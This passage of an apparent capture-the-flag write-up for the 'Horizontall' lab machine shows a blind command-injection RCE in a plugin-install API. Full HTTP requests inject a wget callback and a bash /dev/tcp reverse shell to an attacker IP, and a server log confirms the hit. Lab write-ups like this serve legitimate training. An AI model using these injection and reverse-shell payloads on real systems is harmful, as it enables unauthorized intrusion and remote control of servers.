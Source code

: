 Next, I tried using the Remote Code Execution (RCE) vulnerability. The vulnerability is blind, it does not return any results that show if it worked or not. To confirm that it worked, I started a web server on my machine and tried to send a request to it.

```http
POST /admin/plugins/install HTTP/1.1
Host: api-prod.horizontall.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://api-prod.horizontall.htb/admin/auth/forgot-password
Content-Type: application/json
Origin: http://api-prod.horizontall.htb
Content-Length: 95
Connection: close
Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MywiaXNBZG1pbiI6dHJ1ZSwiaWF0IjoxNjU0ODEzOTQzLCJleHAiOjE2NTc0MDU5NDN9.GeHHgPPSRxWh2asrmUDIwxktHcl6xyTsPEmFFBEY7b4

{
    "plugin" :  "documentation && $(wget http://10.10.14.143/test)",
    "port" : "1337"
}
```

The webserver got the request so I knew I could run any code I wanted on the server.
```bash
$ python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.89.97 - - [18/Jun/2022 13:10:16] code 404, message File not found
10.129.89.97 - - [18/Jun/2022 13:10:16] "GET /test HTTP/1.1" 404 -
```

I used the RCE to get a reverse shell. 

```http
POST /admin/plugins/install HTTP/1.1
Host: api-prod.horizontall.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://api-prod.horizontall.htb/admin/auth/forgot-password
Content-Type: application/json
Origin: http://api-prod.horizontall.htb
Content-Length: 90
Connection: close
Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MywiaXNBZG1pbiI6dHJ1ZSwiaWF0IjoxNjU0ODEzOTQzLCJleHAiOjE2NTc0MDU5NDN9.GeHHgPPSRxWh2asrmUDIwxktHcl6xyTsPEmFFBEY7b4

{
    "plugin" :  "documentation && $(bash -c 'bash -i >& /dev/tcp/10.10.14.143/4444 0>&1')",
    "port" : "1337"
}
```
